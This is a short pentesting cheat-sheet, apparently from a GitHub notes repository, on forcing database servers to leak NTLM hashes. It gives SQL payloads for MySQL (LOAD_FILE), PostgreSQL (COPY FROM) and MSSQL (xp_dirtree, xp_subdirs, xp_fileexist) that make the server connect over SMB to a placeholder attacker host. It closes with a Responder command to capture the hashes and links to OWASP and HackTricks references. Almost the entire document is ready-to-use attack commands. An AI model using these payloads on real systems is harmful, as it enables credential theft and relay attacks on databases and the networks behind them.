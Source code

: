 # 02 - DBMS Backend Relay Attack

Search Tag: #mitm #responder #smb #relay #ntlm #sql-injection

## 2.1 - MySQL

```
SELECT LOAD_FILE('\\\\<attacker_IP>\\snare\')
```

## 2.2 - PostgreSQL

```
CREATE TABLE test_table(test_column TEXT);
COPY test_table(test_column) FROM '\\\\<attacker_IP>\\snare\';
DROP TABLE test_table;
```

## 2.3 - MSSQL

```
1> xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_subdirs '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_fileexist '\\<attacker_IP>\snare\'
2> go
```

- **Capture hash**

`$ sudo responder -I <interface>`

---
## References

- [Pwning a Shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)